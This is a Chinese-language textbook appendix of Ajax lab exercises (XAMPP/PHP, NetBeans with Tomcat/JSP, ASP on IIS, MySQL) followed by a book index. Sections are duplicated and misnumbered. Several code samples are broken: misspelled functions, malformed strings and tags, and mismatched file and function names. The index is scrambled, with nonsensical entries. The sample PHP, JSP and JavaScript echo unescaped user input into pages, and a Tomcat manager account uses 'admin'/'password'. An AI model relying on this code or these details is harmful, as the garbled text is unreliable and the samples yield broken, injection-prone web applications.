首先，你需要提取 XAMPP 并双击安装文件启动服务器。


XAMPP win32 安装向导。

安装完成后，进入 XAMPP 文件夹。你可以使用 XAMPP 控制面板来启动和停止所有服务器，并安装和卸载服务。


### 第 2 步：

打开浏览器并输入`http://localhost/`。你应该找到一个类似类似的页面。这表明服务器正在运行。


在 XAMPP 文件夹内部，有一个名为`htdocs`的文件夹。在该文件夹内，打开记事本并输入以下代码。

1. 按所示创建一个`phpindex.php`文件。

```html
<HTML>
<head>
<script type="text/javascript">
var req;

function ajaxCall() {
  var poststr = "username=" + encodeURI(frmtest.content.value);
  var url = "ajax.php";
  // 创建 XMLHttpRequest 对象
  if (window.XMLHttpRequest) {
    req = new XMLHttpRequest();
  } else if (window.ActiveObject) {
    req = new ActiveXObject("Microsoft.XMLHttpRequest");
  }
  // 以异步(true) 模式配置 XMLHttpRequest 对象
  req.open("POST", url, true);
  req.onreadystatechange = callback;
  req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  req.setRequestHeader("Content-length", poststr.length);
  req.setRequestHeader("Connection", "close");
  // 向 URL 发请求
  req.send(poststr);
}

// XMLHttpRequest 对象将回调此函数来处理
// 服务器返回的结果
function callback() {
  if (req.readyState == 4) {
    if (req.status == 200) {
      parseMessage();
    }
  }
}

function parseMessage() {
  var message = req.responseText;
  setMessage(message);
}

// 使用 document 对象更新 HTML DOM
function setMessage(message) {
  mdiv = document.getElementById("message");
  mdiv.innerHTML = "<div style='color:green>"+message+"</div>";
}
</script>
</head>
<body>
  <form action="" name="frmtest" method="post">
    <!--为 keyup 事件指定事件处理器-->
    <input type="text" name="content" onkeyup="javascript:ajaxCall();">
  </form>
  <div id="message"></div>
</body>
</HTML>
```

2. 创建新文件`ajax.php`并输入此代码。

```php
<?php
$content = $_POST['username'];
echo "Hello !" . $content . "<br />";
?>
```

### 第 3 步：

现在打开浏览器并输入`http://localhost/phpindex.php`。如果你在文本框中输入名称，页面将立即异步地响应。


```javascript
//XMLHttpRequest 对象将回调此回调函数以处理
///从服务器返回的结果
function callback() {
  if (req.readyState == 4) {
    if (req.status == 200) {
      parseMessage();
    }
  }
}
```

```javascript
function parseMessage() {
  var message = req.responseText;
  setMessage(message);
}
```

```javascript
// 使用 document 对象更新 HTML DOM
function setMessage(message) {
  var mdiv = document.getElementById("Message");
  mdiv.innerHTML = "<div style='color:green'>"" + message + "</div>";
}
```

```html
</script>
</head>
<body>
<form action="" name="fmttest" method="post">
<!-- 为 keyup 事件指定事件处理器 -->
<input type="text" name="content" onkeyup="javascript:ajaxCall();">
</form>
<div id="Message"></div>
</body>
</html>
```

2. 建立一个新文件`ajax.php`并输入以下代码。

```php
<?php
$content = $_POST['username'];
echo "Hello !" . $content . "<br/>";
?>
```

## 步骤 3:

现在打开浏览器并输入`http://localhost/phpindex.php`。你也可以输入`http://localhost`浏览项目并选择`phpindex.php`。

如果你在文本框中输入某些名称，页面会自动响应。你可能注意到没有提交按钮，因为响应是通过 Ajax 瞬时且异步地提交的。

## NetBeans 和 Tomcat

### 10.5.1 NetBeans 概述

NetBeans IDE 是一个为 Java 软件开发者提供的免费、开源集成开发环境 (IDE)。它涵盖了所有的 Java 标准版（Java SE）、Java 企业版（Java EE，以前称为 J2EE）以及 Java 微型版（曾称为 J2ME）——全部集成在一个 IDE 环境中。该 IDE 运行在几乎所有的平台上，包括 Windows、Linux、Solaris 和 Mac OS。它易于安装，并且开发基于 Java 的跨平台桌面、企业、Web 和移动应用程序非常方便。它还是一个实用的软件开发（CBSD）工具，用于创建、复用和部署 Java JAR、WAR 和 EAR 组件。

NetBeans 提供以下功能：

- Swing GUI 生成器、集成的 CVS 版本控制、带有工具的 NetBeans 调试器、项目实时共享的协作、基于 Ant 的系统和自定义环境工具
- 用于 Java SE 和 JSP 开发的源码编辑器：用于 DTD、Schema 和 CSS 的 XML 编辑器以及 C/C++ 开发
- 带有 JSP、servlets、JavaServer Faces (JSF) 和 Struts（Java 企业版）、Sun Application Server、WebLogic 和 JBoss 的 Web 服务器开发工具
- 支持 ear-jar 部署的 RJB 开发
- 用于 Ajax、CSS 和 JSF 的可视化 Web 应用开发；使用 Java 企业版的 WSDL 和 Web 实现开发与部署进行 Web 服务；BEPL 设计、开发和测试工具
- Web 客户端平台开发
- 移动应用开发（Java 微型版），包括连接限制设备配置 (CLDC)、CDC 和移动信息设备规范 (MIDP）；Java ME 开发周期工具
- 带有代码生成器的 UML 建模工具
- 嵌入式 Tomcat 服务器

### 10.5.2 实验：在 NetBeans 的嵌入式 Tomcat 上使用 JSP

首先，从`http://www.netbeans.org/`下载 NetBeans。当前版本是 6.X。


安装 NetBeans 后，启动 NetBeans IDE，你将看到如下所示的 NetBeans 启动页。


一旦安装 NetBeans，GlassFish 2.1 是默认安装的服务器。如果你倾向于在 Tomcat 服务器上运行，我们需要外部安装它。

### 在 NetBeans 6.0 中安装并添加外部 Tomcat 服务器：

参考：`http://wiki.netbeans.org/AddExternalTomcat`

假设已安装了 Apache Tomcat、NetBeans 6.0 和最新版本的 JDK。在 NetBeans 6.0 中，我们需要从外部添加 Tomcat 服务器。让我们来看 Tomcat 6.0 服务器的配置。

#### Tomcat 6.0 设置：

你可以运行可执行文件来安装 Tomcat 6.0，也可以将 Tomcat6.0 zip 文件夹解压到驱动器；例如，你可以将其解压到`C:\Tomcat6.0`。现在进入你的`Tomcat/conf`文件夹，用文本编辑器打开`tomcat-users.xml`，并为分配了 manager 角色的用户添加用户名和密码。你的`tomcat-users.xml`看起来应该是这样的：

```xml
<?xml version='1.0' encoding='utf-8'
<tomcat-users>
  <role name="manager"/>
  <role name="standard"/>
  <user username="admin" password="password" roles="standard,manager"/>
</tomcat-users>
```

这将添加用户为 admin，密码为 mypassword。在 NetBeans 6.0 中，我们需要指定用户名和密码。你将使用 JSP 技术构建应用程序，工作将在 NetBeans IDE 中完成。如果 Tomcat 服务器安装正确，打开 NetBeans IDE 将 Tomcat 作为外部服务器添加。步骤 1；首先选择 Services（服务）选项并选择 Server（服务器）；右键点击图标添加服务器。

如果你安装了 Tomcat 可执行文件，`Tomcat\bin`文件夹中可能缺少`catalina.bat`和`classpath.bat`两个文件。这两个文件用于从 NetBeans 6.0 IDE 启动 Tomcat 服务器。如果缺少这两个 bat 文件，你可以从`#forum.sun.com/thread.jsp?threadID=664901&messageID=389374`获取它们，然后使这两个 `.bat` 文件可用从 NetBeans 6.0 启动服务器。

### 启动 Web 项目的步骤：

让我们通过以下步骤练习 NetBeans IDE 创建新项目。在此应用程序中，使用 Tomcat 6 作为服务器。第一步，选择 File（文件）→New Project（新建项目）和 Web→Web Application（Web 应用程序）。


接下来，在“Name and Location（名称和位置）”的步骤 2 中指定项目名称和项目位置。


暂时跳过步骤 3 Framework selections（框架选择）。在文件管理器中，选择 Application name（应用程序名称）→web→index.jsp，现在我们将对此模板文件进行一些更改。


在 body 标签中复制以下代码：

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<title>Hello User! JSP Page</title>
</head>
<body>
<form name="name" action="index.jsp" method="POST">
  <input type="text" name="name" value="" />
  <input type="submit" value="submit" name="submit" />
</form>
<% if(request.getParameter("name") != null) {%>
Hello, <%= request.getParameter("name") %>
<% } %>
</body>
</html>
```


按下 `Run Main Project`（运行主项目）（F6）。NetBeans 将启动 Tomcat 服务器，你可以使用浏览器访问 `localhost` 进入此 JSP 文件：


如果你在文本框中输入“John”并提交请求，将生成一个带有“Hello, John”欢迎语句的新 JSP 页面。


此实验表明，NetBeans IDE 是开发服务器端应用的另一个有用工具。任何 Ajax JavaScript 请求都可以访问使用 NetBeans IDE 工具开发的服务器端组件。

## 10.5.3 在 NetBeans 中开发的 Ajax 和 JSP

假设你已经安装了 Apache Tomcat 和 NetBeans IDE。我们将使用 JSP 技术构建你的 Ajax 服务器，工作将在 NetBeans IDE 中完成。

### 步骤 1：启动 NetBeans

选择 `File`→`New Project...`。


## 10.5 NetBeans 和 Tomcat

### 第 2 步：创建 Web 应用程序

选择 `Web` 和 `Web Application`，然后点击 `Next`（下一步）。

在弹出的对话框中，为你的项目命名并选择它的位置。完成后点击 `Finish`（完成）。

你将看到一个默认页面 `index.jsp` 以及如下的目录结构，你可以在 HTML 身体中放置“Hello World!”：


你可以通过点击 `Run`（运行）→ `Run Main Project`（运行主项目）来运行此默认页面。

启动内置的 Java 服务器需要几秒钟。此外，新的 JSP 文件需要编译。毕竟，浏览器会自动打开并显示一个简单的页面。


### 第 3 步：创建 Ajax 页面

将以下代码复制到默认页面 `index.jsp`。

```html
<HTML>

<head>

<script type="text/javascript">

var req;

function ajaxCall() {

  var poststr = "username=" + 

nencodeURI(document.frmtest.content.value);

  var url = "ajax.jsp";

  if (window.XMLHttpRequest) {

    req = new XMLHttpRequest();

  } else if (window.ActiveXObject) {

    req = new ActiveXObject("Microsoft.XMLHTTP");

  }

  req.open("POST", url, true);

  req.onreadystatechange = callback;

  req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");

  req.setRequestHeader("Content-length", poststr.length);

  req.setRequestHeader("Connection", "close");

  req.send(poststr);

}

function callback() {

  if (req.readyState == 4) {

    if (req.status == 200) {

      // 根据消息状态更新 HTML DOM

      parseMessage();

    }

  }

}

function parseMessage() {

  var message = req.responseText;

  setMessage(message);

}
```

```html
function setMessage(message) {

mdiv = document.getElementById("Message");

mdiv.innerHTML = "<div style=\"color:green\">"+message+"</div>";

}

</script>
```

```html
</head>

<body

<form action="" name="frmtest">

<textarea name="content" rows="3" cols="40"

onkeyup="javascript:ajaxCall();"></textarea>

</form>

<div id="Message"></div>

</body>

</html
```

在同一文件夹中创建一个名为 `ajax.jsp` 的新文件，并将以下代码复制到其中：

```jsp
<%

String content = request.getParameter("username");

content = "Hello! " + content;

response.setContentType("text/html");

response.setHeader("Cache-Control", "no-cache");

response.getWriter().write(content);

%>
```

## 第 4 步：运行 Ajax 应用程序

通过点击 `Run`（运行）→ `Run Main Project`（运行主项目）启动服务器。在新的默认页面上，你可以看到一个文本区域。


如果你在文本区域中输入一些名称，页面会自动并立即对你做出响应，无需点击按钮。


你可以从这个示例中看到，Ajax 客户端以异步模式工作，不会丢失操作上下文，而不是采用“点击、等待并刷新”的请求-响应通信交互模式。Ajax 客户端仅刷新页面中更新的部分，并为用户的活动提供即时反馈。

## 10.6 NetBeans PHP 插件

除了是一个优秀的 Java 平台外，NetBeans IDE 还拥有一个 PHP 插件，它可以通过提供语法高亮、代码补全和调试来帮助开发 PHP Web 应用程序。它的安装和设置非常简单。你首先需要准备好 Apache Web 服务器和 PHP，这些已经在本文附录中涵盖过了。如果你还没有设置它们，请返回并按照说明进行设置。

在安装 PHP 插件之前，你可能需要的另一个重要软件是 PHP 调试器，可以从 `http://www.xdebug.org/docs/install.html` 下载。下载 Xdebug 并将其放在硬盘上的任意位置；然后将以下内容添加到 `php.ini` 文件中，但将 `C:\xdebug\php_xdebug-2.0.2-5.2.5.dll` 替换为你 Xdebug 副本的路径。

```ini
zend_extension_ts="c:\xdebug\php_xdebug-2.0.2-5.2.5.dll"

xdebug.remote_enable=1
```

要安装并设置 PHP 插件，请遵循以下步骤：

1. 检查 PHP 插件是否已安装：选择 `Tools`（工具）→ `Plugins`（插件）并切换到 `Installed`（已安装）标签卡。

   

2. 如果 PHP 不在已安装列表中，切换到 `Available Plugins`（可用插件）标签卡，在列表中选择 PHP 选项并点击 `Install`（安装）按钮。

3. 在 NetBeans 主界面中，切换到 `Services`（服务）标签卡，它显示了数据库和 Web 服务器配置的树结构。

4. 将光标置于 `Web Servers` 节点上，从上下文菜单中选择 `Add Web Server`（添加 Web 服务器）。弹出 `Add New Server`（添加新服务器）对话框。

5. 在 `Connection Name`（连接名称）字段中输入 Web 服务器配置名称，并在 `Server Type`（服务器类型）下拉列表中选择：

   - `Local Server with File Access`（带文件访问的本地服务器）：此选项假设你的本地计算机上安装了 Web 服务器。每当你运行 PHP 项目时，IDE 会将源文件复制到 Web 服务器指定的目录下。
   - `Remote Web Server with FTP`（带 FTP 的远程服务器）：此选项允许通过 FTP 将 PHP 文件部署到远程服务器。

6. 选择 `Manual Configuration`（手动配置）。

7. 在 `config file`（配置文件）框中指定 `httpd.conf` 的位置。

8. 从 `Host Name`（主机名）下拉列表中选择虚拟主机。

9. 从 `Configured Web Servers`（已配置的服务器）下拉列表中选择相应的 Web 服务器配置名称。

10. 在 `Context Path`（上下文路径）字段中，输入你希望部署 PHP 文件的文档根下的子文件夹名称。

11. 点击 `Finish`（完成）。

现在你可以创建新的 PHP 项目并部署到 Web 服务器进行测试。

1. 在 `Projects`（项目）窗口中，选择 `File`（文件）→ `New Project`（新建项目）。

2. 打开 `New Project` 向导。

3. 在 `Categories`（类别）列表中选择 PHP。

4. 在 `Projects` 区域选择 `PHP Project` 以创建一个空项目并点击 `Next`。要使用现有源代码，选择 `PHP Project with Existing Sources`（带现有的 PHP 项目）。

5. 在 `Name and Location`（名称和位置）页面，在 `Name` 字段输入项目名称。NetBeans 会自动为项目创建一个新文件夹。

6. 如果你有多个项目，勾选 `Set as Main Project`（设置为主项目）框。

7. 要创建索引文件，勾选 `Create File`（创建文件）框并在文本框中指定名称。

8. 点击 `Next`。打开 `Web Server Configuration`（服务器配置）对话框。

   

9. `HTTP Path`（HTTP 路径）：HTTP 服务器的主机或 IP 地址以及服务器监听的端口号。

10. 所选配置的文件访问设置，即 Web 服务器查找文件的目录（使用本地服务器时为 `Document Path`，使用远程服务器时为 `FTP Path`）。

有关 PHP 插件的更多信息请参阅 `http://php.net.org/`。

## 10.7 使用 ASP Ajax

本例使用 ASP 服务器。

### 第 1 步：安装 IIS

前往控制面板→添加或删除程序→添加或删除 Windows 功能，并勾选 Internet 信息服务以安装 IIS。如果你的计算机上已经安装了 IIS，则无需重复此步骤。安装程序需要 Windows 光盘。

## 10.7 ASP 使用 Ajax

安装 IIS 后，你可以在 `C:\Inetpub\` 找到一个新文件夹。这是 IIS 的默认文件夹。打开 Firefox，在地址栏中输入 `http://localhost` 并按回车。你可以看到如下所示默认页面：


### 第 2 步：服务端文件：ASP

IIS 的默认根文件夹是 `C:\Inetpub\wwwroot`，这意味着你可以将页面放在这里，并通过浏览器访问它们。

创建一个新的文本文件并将其命名为 `hello.asp`。此 ASP 文件在 IIS 服务器上运行，并为客户端的用户生成问候语。如果用户输入 `"Bill"`，他们将在文本框下方看到 `"Hello! Bill"`。

将以下代码复制到 `hello.asp`，并注意 Microsoft Word 使用的字符；这些字符在你的编辑器中可能是无效的：

```html
<!DOCTYPE html PUBLIC "//W3C//DTD HTML 1.0 Transitional//EN"

"http://www.w3.org/TR/html41/DTD/html41-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head><title></title></head>

<body>

<%

response.expires=-1

q=ucase(request.querystring("q"))

response.write("Hello !")

response.write(q)

%>

</body>

</html>
```

### 第 3 步：制作客户端文件：HTML 和 JS

`.htm` 和 `.js` 文件虽然存储在服务器上，但它们将在用户的浏览器中被下载并执行。你可以在 `gethintint.asp` 相同的文件夹（`C:\inetpub\wwwroot`）中创建两个文本文件，并将它们命名为 `testAjax.htm` 和 `clientint.js`。以下是这两个文件的代码：

#### `testAjax.htm`

```html
<html>

<head>

<script src="clientint.js"></script>

</head>

<body><form>

First Name:

<input type="text" id="txt1"

keyup="greet(this.value)">

</form><p><span id="message"></span></p></body>

</html>
```

#### `clientint.js`

```javascript
var xmlHttp

function greet(st) {

xmlHttp=GetXmlObject()

if (xmlHttp==null) {

alert("Your browser does not support Ajax!");

return;

}

var url="gethint.asp";

url=url + "?q=" + st;

url=url + "&sid=" + Math.random();

xmlHttp.onreadystatechange=stateChanged;

xmlHttp.open("GET",url,true);

xmlHttp.send(null);

}

function stateChanged()

{

  if (xmlHttp.readyState==4)

  {

    document.getElementById("message").innerHTML=xmlHttp.responseText;

  }

}

function getXmlHttpObject()

{

  var xmlHttp=null;

  try

  {

    // Firefox etc.

    xmlHttp=new XMLHttpRequest();

  }

  catch (e)

  {

    // Internet Explorer

    try

    {

      xmlHttp=new ActiveXObject("Msxml12.XMLHTTP");

    }

    catch (e)

    {

      xmlHttp=new ActiveXObject("Microsoft.XMLHTTP");

    }

  }

  return xmlHttp;

}
```


### 第 4 步：运行示例

现在你有了一个 Internet 服务器：IIS，并且三个文件（`testAjax.htm`、`clientint.js`、`gethintint.asp`）位于默认文件夹（`C:\Inetpub\wwwroot`）。


在 IIS 运行的情况下，打开浏览器（Firefox），在地址栏中输入`http://localhost/testAjax.htm`并按回车。你应该看到类似所示的内容：


如果你在文本框中输入“Bob”，字符“B”、o”和“b”将无缝显示，而无需刷新整个网页。


## 10.8 MySQL

### 10.8.1 概述

MySQL 是世界上最流行的开源关系型 SQL 数据库系统。MySQL 数据库服务器为关键任务、高负载生产系统提供了多线程、多用户且稳健的 SQL 信息管理环境。MySQL 可以作为任何信息系统的后端，并可以使用几乎所有的编程语言或脚本语言访问。MySQL 数据库可以托管在任何 Web 服务器上，并通常与 PHP 结合用于 Web 应用程序，以便全球任何地方的任何 Web 客户端访问 MySQL 数据库中的信息。

PHP 可以收集数据并发送到 MySQL 数据库，MySQL 可以存储信息。PHP 可以向数据库发送请求并获取数据库响应。PHP 和 MySQL 的结合使得 Web 应用程序在实时生成交互式动态网页方面更加简单强大。HTML 可以创建有用且格式良好的网页。

例如，Web 可以使用 PHP 浏览存储在 MySQL 数据库中的在线购物目录。

## 10.9 总结

现在，如果你输入的名称与表格中的任何名称（`John`、`Smith`、`Mike`）匹配，它将被识别。否则，你的请求将被拒绝。


未注册用户将如下所示被拒绝。


本附录为你提供了许多实践实验室，用于练习使用各种开源 Web 服务器、JavaScript 和 Ajax 客户端向它们发送请求获取响应。你可以看到，同一个 JavaScript 或 Ajax 客户端只需稍作修改即可访问不同的服务器。你可以选择任何介绍过的特定技术来回顾并练习你在书中学到的材料。

# 索引

### 符号

- `+` `$`（美元符号），94
- `&`（和/符号）
  - 在 HTML 中，29–30
  - 在 XML 中，62–63
- `*`（星号）
  - 在 DTD 声明中，65
  - 路径表达式，81
- `*/`（星号，正斜杠），93
- `/*`（正斜杠，星号），93
- `..`（双点），81
- `//`（双斜杠）
  - JavaScript 注释，93
  - 路径表达式，81
- `@`（at 符号），81
- `*@`（at 符号，星号），81
- `_`（下划线），94
- `{}`（大括号），206
- `|`（管道符），65
- `+`（加号），65
- `<`（小于）
  - 在 HTML 中，29–30
  - 在 XML 中，62–63
- `==`（等价运算符），94
- `===`（恒等运算符），94
- `>`（大于）
  - 在 HTML 中，29–30
  - 在 XML 中，62–63
- `:`（冒号），206
- `"`（双引号），108–211
- `/`（正斜杠），80–81
- `.`（点），81
- `?`（问号），65
- `;`（分号），108
- `'`（单引号），62–63
- `,`（逗号），206–207
- `(`（括号），JSON 字符串和，207
- 括号运算符，110、113

### A

- 终止请求，184–210
- 绝对位置路径，80
- 绝对路径，32
- 跨站请求控制（Access Control for Cross-site Requests），W3C 规范，223
- 控制模块，在 Apache 中，436
- Access-Control 头部，223
- 访问器，143–147
- `action` 属性，48–49
- 活动服务器页面（ASP），466–470
- adanners（广告幅）
  - 在买家页面中，314
  - 动手实践，359–362
  - 技术细节，354–359
- Add 按钮处理程序，348
- `addItemToIt()` 函数，399
- 插件，Firebug，432–435
- `addLocationToIt()` 函数，399
- 接入高级研究计划网络（ARPANET）
  - 广告样本，359
- Ajax
  - 时代，11–15
  - 与 ASP 使用，466–470
  - 基本 Web 架构，4–9
  - 历史，2–4
  - 在 NetBeans 中配合 JSP 开发，458–462
  - 概述，1
  - 参考文献，18–19
  - 复习题，17–18
  - WAMP 和 PHP，447–450
  - Web 演进，9–11
  - XAMPP 和 PHP，443–447
- Ajax 案例研究
  - 添加动态横幅，354–362
  - BigPeachYardSaleExpress，309–311
  - 购买页面和 Dojo，362–369
  - 结论，401
  - 使用 NetBeans 创建 Web 项目，316–319
  - 数据库创建，319–323
  - 练习，403–404
  - 头部片段布局，326–329
  - 高层设计，311–316
  - 图像上传，347–354
  - 引言，308–309
  - 行程计划和拖放，391–400
  - 用于上传图片的 Java Servlets，342–347
  - 用于构建的 JSF，331–335
  - Map ID 和 Google Maps，370–391
  - 页面导航，323–326
  - 门户页面布局 CSS，329–331
  - 复习题，401–403
  - 卖家页面布局，335–342
- Ajax 挑战与最佳实践
  - 诊断，284–289
  - 练习，302–303
  - 概述，284
  - 参考文献，303–305
  - 复习题，301–302
  - 安全性，296–300
  - 总结，301
  - 测试 Web 应用，289–296
- 搜索销售事件的算法，371–381
- 和/符号（`&`）
  - 在 HTML 中，29–30
  - 在 XML 中，62–63
- 祖先轴（ancestor axis），82
- 祖先或自身轴（ancestor-or-self axis），82
- 锚点，HTML，31–33
- 动画广告幅，360–361
- Anley, C.，297
- Apache HTTP Server，435–439
  - Web 移动的完整示例，224–242
  - 与 MySQL，47–448
  - 与 PHP 及 AJAX 使用，447–450
  - 与 PHP 及 XAMPP，443–447
  - PHP 实践实验室，441–443
- Apache JDBC 案例研究。参见 Ajax 案例研究
- 小程序，9–10
- 应用类，与 RDFs，419–421
- 应用，Web。见 Web 应用
- `apply()`，116
- 架构，4–9
- `arguments` 属性，114
- ARPANET 高级研究计划网络，3
- 数组，JavaScript，117
- `distances` 变量，380
- `adds` 变量，379
- `GeoPoints` 变量，380
- ASP（活动服务器页面），466–470
- ASP.NET 和 Apache，437
- 异步请求，287–288
- 星号，正斜杠（`/*`），93
  - DTD 声明，65
  - 路径表达式，81
- `@` 符号，81
- `@*` 符号，81
- 安全性攻击，296–300
- 攻击面，300
- 属性，34
- 属性，23–24
- 轴（axis），82
- 异步请求，287–288
- 书签，HTML，31–33
- 缓存，221–222
- 缓冲区溢出，52
- 内置对象，98
- 闭包，115–128
- Baran, Paul，3
- Berners-Lee, Tim，4
- 118–119
- 布尔数据类型，97
- 粗体元素，26
- 浏览器，Ajax 时代，11–15
- 基本 Web 架构，4–9
- 历史，2–4
- 在 NetBeans 中配合 JSP 开发，458–462
- 概述，1
- 参考文献，18–19
- 复习题，17–18
- WAMP 和 PHP，447–450
- Web 演进，9–11
- XAMPP 和 PHP，443–447
- CBSD（组件化软件开发）
  - 工具，451
- `call()`，116
- Cerf, Vinton，3
- `center` 标签，9
- 字符
  - 在 DTD 声明中，65
  - 在 JavaScript 中，92–93
  - 特殊 HTML，29–30
- 子节点轴（child axis），82
- 子元素
  - 访问节点，145–147
  - 用 DTD 声明，64–65
- `class` 属性，41–42
- 类
  - 在 OWL 中定义，421–424
- `className`，152–154
- `clearTimeout()`，211
- `clientAddr` 变量，380
- `clientGeoPoint` 变量，380
- 客户端
  - HTTP 基础，47–48
  - 推送数据到，216–219
- 代码点，61
- 冒号（`:`），206
- 颜色
  - 使用 HTML 添加，30–31
  - CSS 文本格式，40
- 命令注入攻击，298–330
- XML 注释，60
- 互补类，在 OWL 中，222
- 复杂元素，74–76
- `content` 属性，257
- `Content-Type` 头部，195
- DOM 元素
  - DOM 修饰符，149
  - 在 DOM 结构中，139–141
  - 拖放功能，391–392
  - 实例，121–123
  - 属性和方法，123–124
- RDFS，419–421
- 模拟，119–128
- 数据，66–67
- JavaScript 运算符，111–112
- 预留，192

### D

#### 索引 483

- data
  - 使用 RDFS 描述，419–421
  - 使用 IFrame 流，213–214
  - 与 RDF 建模、表示和集成，413–419
  - XForms 模型，408–409
- data tables
  - 添加到数据库设计中，315–316
  - 使用 SQL 脚本添加，317–319
  - 使用检索图像，342–347
- databases
  - 设计，315–316
  - 创建的实战练习，319–323
  - MySQL，471–477
  - 作为语义 Web，410–411
- datatypes
  - JavaScript，94–103
  - OWL 属性，423
- Davies, Donald，3
- debugging
  - Ajax Web 应用程序，284–289
  - PHP，462
  - 使用 Firebug 操作，434
- declarations
  - DTD，63–69
  - XML，59–60
  - XML Schema，70–78
- 默认值，66
- 删除按钮处理器，349
- delimiters，218
- 后代轴（descendant axis），82
- 后代或自身轴（descendant-or-self axis），83
- design
  - 广告横幅处理练习，359–362
  - 添加动态广告横幅，354–359
  - Ajax 案例研究，311–316
  - 买家页技术细节，362–369
  - 创建买页，369
  - 头部片段布局，326–328
  - 导航，325–326
  - 完善门户页面布局和 CSS，362–328
  - 卖方页，337–342
- 开发平台，Apache，437
- HTML（动态 HTML），11
- Ajax Web 应用程序的诊断，284–289
- 方言，XML，59–70
- 方向，驾驶，394–399
- 显示属性，135
- `distance()` 函数，381
- `div`，42–45
- DOCTYPE 声明
  - 与 XML 文档关联，68–69
  - 定义，24–25
- 文档对象（Document object），222–223
- 文档对象模型（DOM）。见 DOM（Document-Object Model）
- 文档类型定义（DTD），63–69
- 片段（Fragment），196
- XML
  - 与 DTD 声明关联，68–63
  - 定义，59–63
  - 在其中引用 XML Schema 规范，77–78
  - 转换为 XHTML 文档，83–86
- Dojo 工具包
  - 买家页技术细节，362–369
  - 创建广告横幅，359–362
  - 创建买家页，369
  - 拖放功能，391–399
  - 拖放实战练习，400
  - 示例和实验室练习，261
  - 练习，282
  - 行程规划器实战练习，400
  - 带有 `xhr` 标签的 Ajax 应用程序中的 JSON，274–280
  - 概述，255–254
  - 引用，282
  - 总结，280
  - Ajax 应用程序中的 `xhrget`，261–268
  - 带有 JSON 数据的 `xhrget()`，259–260
  - Ajax 应用程序中的 `xhrPost`，268–274
  - `XMLHttpRequest`，255–259
- DOM（文档对象模型）
  - 定义，11
  - 事件处理，154–163
  - JavaScript 主机对象，104
  - 概述，138–142
  - 使用进行解析和验证，78–79
  - 样式操作，150–154
  - 遍历和操作，143–150
  - 域信息检索，425–428
- domain names（域名）
  - HTTP 基础，46–47
  - 在 URL 中，31
- 域属性（`..`），222–223
- 双点（`..`），81
- 双引号（`"`），62–63
- 双斜杠（`//`）
  - JavaScript 注释，93
  - 路径表达式，81
- drag and drop（拖放）
  - 实战练习，400
  - 技术细节，391–399
  - 驾驶方向控制，394–399
  - 驾驶距离函数，380–381
- DTD（文档类型定义），63–69
- dynamic ad banners（动态广告横幅）
  - 实战练习，359–362
  - 技术细节，354–359

- Dynamic HTML（HTML），11
- 使用 XML Schema 声明，74
- `encodeForm()` 方法，192–194
- 结束标签（end tags）
  - 定义，23
  - XML，61
- entities（实体）
  - 声明名称，67–68
  - HTML，29–30
  - XML 引用，62
- ENTITY，66
- OWL 中的枚举类，422–423
- 等值运算符（`=`），94
- `error()`，257
- errors（错误）
  - JavaScript 处理和对象，118–119
  - 纯文本消息，203–205
  - `eval()` 函数，205–210
- event handling（事件处理）
  - DOM，154–163
  - 在 HTML 中嵌入 JavaScript，129–131
  - `onreadystatechange`，186
  - 在远程示例中，235
  - XML 响应，200
  - XMLHttpRequest，170–180、188–191
- Event（事件），161–162
- Web 进化，9–11、406
- 异常，118–119
- 表达式，路径，80–83
- JavaScript 中的星号，117–118
- 服务排序，218
- 可扩展 HTML 标记语言（XHTML）定义，22
- 转换 XML 文档到，83–86
- 可扩展标记语言（XML）。见 Extensible Markup Language
- 可扩展样式表转换（XSLT），79–86
- ECMAScript，92–93
- element（元素）质，41–42
- elements（元素）
  - 子元素（child elements）
    - 使用 DTD 声明，64–66
    - DOM 访问器，143–147
  - 使用 CSS 格式化。见 Cascading Sheets
  - HTML，23–24
  - 在 DOM 中操作样式，150–154
  - 修饰符，147
  - `xf:model` 元素，408–409
  - XForms 用户界面，409–410
  - XML，61–62
  - XML Schema，70–78
  - 嵌入 JavaScript，129–139
- empty elements（空元素）
  - 使用 DTD 声明，64
- Fetch Image Servlet
  - 实战练习，347–354
  - 使用检索，342–347
- `finally` 块，118
- Firebug，288–289、432–435
- Firebug 插件，432–435
- Mozilla 项目，219
- 服务支持，219
- FIXED，66–67
- `float` 属性，36
- following axis（后继轴），83
- following-sibling axis（后继兄弟轴），83
- 字体格式化，39–40
- `font-family` 属性，39
- `for` 循环，106
- form elements（表单元素），48–52
- `form` 属性，257
- 表单样式。见 Cascading Style Sheets
- `function()` 构造函数，113
- 函数字面量，112–113
- 功能测试，294–296
- functions（函数）
  - 构造函数，119–128。另见 constructor func
  - 创建 XMLHttpRequest 对象，182–184
- graphics（图形），34–36
- 大于（`>`）
  - 在 HTML 中，29–30
  - 在 XML 中，62–63
- history（历史），4
  - 超链接和锚点，31–33
  - lists（列表），27–29
  - PHP 和，440
  - responses（响应），195–199
  - 特殊字符，29–30
  - structure（结构），24–26
  - tables（表格），33–34
  - 标签、元素和属性，23–24
  - 将 XML 文档转换为 HTML 文档，83–86
  - XForms，406–410
- `h` 元素，255
- HTML 表
  - 门户页头部布局，326–328
  - 卖方页头部片段布局，340–341
- HTTP（超文本传输协议）
  - Apache 开发平台，437
  - 基础网络架构，4–5
  - 基础，48–63
  - 定义，6–9
  - GET vs. POST 方法，52–53
  - HTML 表单和，48–52
  - 请求，176–219
  - 流式，216–219
  - XMLHttpRequest 对象。见 XMLHttpRequest object（对象）
- hyperlinks（超链接）
  - 添加图像，351–352
  - 使用 HTML 添加，31–33
  - 导航实战练习，324–325
  - 使用 Ajax 跟踪历史，221
- 超文本标记语言。见 HTML（Hyper-Markup Language）
- 超文本传输协议。见 HTTP（Hyper-Text Transfer Protocol）
- Forward bounds（前界）
  - 使用 `history` 对象控制，136
  - 使用 Ajax 跟踪历史，220–221
- 正斜杠（`/`），80–81
- URIs 中的片段，6
- fragments（片段），头部。见 header 布局
- 标签，177
- frames（帧），隐藏，211–216
- `frames[]` 数组，137–138
- `frameset` 标签，10–11
- FTP，237
- `function()` 构造函数，113
- 函数字面量，112–113
- 功能测试，294–296
- functions（函数）
  - 构造函数，119–128。另见 constructor func
  - 创建 XMLHttpRequest 对象，182–184
- graphics（图形），34–36
- 大于（`>`）
  - 在 HTML 中，29–30
  - 在 XML 中，62–63
